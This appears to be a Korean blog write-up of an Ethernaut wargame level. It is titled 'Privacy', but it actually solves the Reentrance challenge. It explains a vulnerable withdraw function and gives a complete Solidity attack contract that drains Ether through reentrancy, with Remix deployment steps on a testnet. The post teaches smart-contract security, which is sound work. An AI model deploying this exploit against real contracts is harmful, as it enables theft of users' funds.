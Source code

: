 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 12) Privacy
date: '2022-01-14 16:24:00'
author: 한성원
tags: ethernaut Privacy vulnerability
categories: 취약점분석
---
```



# 👋 Privacy
__Difficulty 8/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- Reentrance contract의 모든 Ether 훔쳐오기

- - -

## 코드 분석
분석은 주석에!

```solidity
contract Reentrance {

    using SafeMath for uint256;
    mapping(address => uint) public balances;

    // _to에게 기부할 수 있는 function 
    function donate(address _to) public payable {
        // 기부 받는 사람의 balance를 msg.value만큼 늘린다.
        balances[_to] = balances[_to].add(msg.value);
    }

    // _who의 balance를 return 한다.
    function balanceOf(address _who) public view returns (uint balance) {
        return balances[_who];
    }

    // 자신이 가지고 있는 balance에서 인출(withdraw)할 수 있다.
    function withdraw(uint _amount) public {
        // msg.sender의 balance가 인출하려는 액수와 같거나 큰지 체크
        if(balances[msg.sender] >= _amount) {
            // msg.sender에게 _amount의 액수만큼 Ether를 보낸다.
            (bool result,) = msg.sender.call{value:_amount}("");
            if(result) {
                _amount;
            }
            // balance에서 인출한 만 balance를 줄인다.
            balances[msg.sender] -= _amount;
        }
    }
    
    receive() external payable {}
}
```
- - -

### 풀이를 위한 Setup
[RemixIDE](https://remix.ethereum.org)를 사용한다. 
remix 사용법은 YouTube와 google에 많이 나와있으니 최신것으로 찾아보자!
그리고 docs를 읽어본다면 사용법을 쉽게 익힐 수 있을 것이다.

한 가지 주의할 점은 Reentrance는 remix에서 바로 deploy하는 것이 아니라 ethernauts에서 만든 instance의 주소를 가지고 addressAt을 누르면 된다.
또한 우리는 Rinkeby Network를 사용하고 있으니 ENVIRONMENT를 "Injected Web3"를 선택해주어야 한다.

## 풀이
이 문제에서 우리의 목표는 Reentrance contract에서 모든 Ether를 훔쳐오는 것이다.

위 코드는 취약점 시리즈 1에서 공부했었던 [Reentrancy Attack](https://holyhansss.github.io/vulnerability/reentrancy_attack/reentrancy_attack/)와 비슷한 코드를 가지고 있다. 

이 문제에 들어가기 전에 우리가 알아야 할 것은 함수를 실행하는 도중에 다시 함수가 불릴 수 있다는 것이다. Ethernaut에세 주는 힌트에서 알 수 있듯이 다른 contract를 통해 이를 가능케 할 수 있다.

AttackReentrance contract를 한번 보며 더 이해해보자!

우선 console 창에서 여러가지 정보를 확인해 보자
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
// contract가 가지고 있는 ether의 양 확인
await getBalance(instance) 
```


```solidity
contract AttackReentrance {

    Reentrance reentrance;
    // value라는 변수를 통해 donate하는 액수와 withdraw하는 액수를 같게 만들었다.
    uint256 value;
    
    // constructor
    constructor(address payable _reentrance) public {
        // attack 할 contract 불러오기
        reentrance = Reentrance(_reentrance);
        // value를 0.001 ether로 설정: Reentrance contract의 balance가 0.001 ehter 였기 때문에 이렇게 설정했다.
        value = 0.001 ether;
    }

    // Reentrance contract의 donate 함수를 실행시키는 함수
    function attackDonate() public payable {
        // msg.value가 value 값과 같은지 확인
        require(value == msg.value);
        // Reentrance contract의 donate 함수 실행
        reentrance.donate{value: msg.value}(address(this));
    }

    // Reentrance의 withdraw 함수를 실행
    function attackWithdraw() public payable {
        // 자신에게 value 만큼 donate했기 때문에 value만큼 인출한다.
        reentrance.withdraw(value);
    }

    // receive function
    receive() external payable {
        // 돈을 인출하자마자 다시 withdraw를 call한다.
        // 실질적인 공격 코드!
        reentrance.withdraw(value);
    }
}
```
위 코드를 Remix IDE에서 위 코드를 Rinkeby Network에 배포한다. 그럼 아래와 같은 버튼들이 나올 것이다. 

![remix_attack_reentrance](remix_attack_reentrance.png)
위 버튼들 중에서 attackDonate 버튼을 눌러 donate하고 attackWithdraw를 통해 withdraw 하면 공격이 끝난다. 

이후 
```javascript
// contract가 가지고 있는 ether의 양 0이 된 것을 확인 할 수 있다.
await getBalance(instance) 

// attackContract 가 가지고 있는 ether의 양이 늘어날 것을 확인할 수 있다
await getBalance("address of attackContract")
```


이후 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```

- - -

## 마무리
Reentrancy attack은 굉장히 유명한 공격 중 하나이다. 내가 지금까지 다뤘던 것은 Reentrancy on a Single Function 이었다. The DAO 사태는 Cross-function Reentrancy였던만큼 Cross-function도 꼭 한번 다뤄야겠다고 느낀다. 나머지 시리즈도 화이팅!

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- Re-entrancy 취약점: https://holyhansss.github.io/vulnerability/reentrancy_attack/reentrancy_attack/

```toc

```